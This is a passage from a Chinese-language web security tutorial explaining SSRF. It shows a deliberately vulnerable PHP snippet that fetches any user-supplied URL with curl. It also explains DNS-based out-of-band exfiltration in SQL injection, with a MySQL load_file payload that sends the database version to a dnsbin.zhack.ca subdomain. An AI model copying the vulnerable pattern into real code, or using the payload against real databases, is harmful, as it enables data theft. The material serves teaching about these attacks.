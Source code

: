 在`输入相关的通用漏洞`中，我们在介绍`未验证的用户输入`漏洞时所举的第一个例子实际上就是一个 SSRF 漏洞利用。以下用一段存在 SSRF 漏洞的 PHP 代码为例，展示一下 SSRF 漏洞的利用效果。

```php
<?php
function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}
$url = $_GET['url'];
curl($url);
```

由于 curl 支持的协议类型非常广泛（根据官网描述可知有不下 20 种网络协议均可以通过 curl 访问读取），因此上述漏洞代码可以访问诸如：服务器上本地文件（利用 ``file://``）和远程 Web 服务器上的文件（利用 ``http://`` 和 ``https://``）等等。

除了文件读取时容易造成 SSRF 漏洞（例如文档、图片、音视频处理等在接受文件路径输入参数时很可能同时支持本地和网络协议 URL），数据库的一些内置功能（加载网络地址时会自动对其中包含的域名字段进行 DNS 查询）也会被利用在 SQL 注入的过程中获取数据。以 [sqlmap](http://sqlmap.org/) 为例，在其众多数据获取技巧中提供了一个命令行参数 `--dns-domain` 就是实现了利用 SQL 数据库在执行一些特定函数时会对其中传入的参数当作域名进行查询这个特性的 `基于 DNS 的带外数据回传`。攻击者通过一系列精心构造的域名查询记录就可以拼接还原出从数据库表中读取的数据。攻击者除了可以自己搭建 DNS 服务器来捕获这些 DNS 查询数据之外，还可以使用一些开放的 DNS 查询监控服务，例如 [dnsbin.zhack.ca](http://dnsbin.zhack.ca/) 。以 MySQL 为例，以下是一个典型的使用 `基于 DNS 的带外数据回传` 技术的 SQL 注入代码片段在数据库中得到执行时的完整形态。

```sql
select load_file(concat('\\\\', version(), '.6a7087aa4e3b2c743ed1.d.zhack.ca\\1.txt'));
```

成功执行上述 SQL 代码将会在 dnsbin 的 DNS 解析服务器上留下一条 DNS 查询记录，如下图所示：

![](attach/media/dnsbin-1.png)

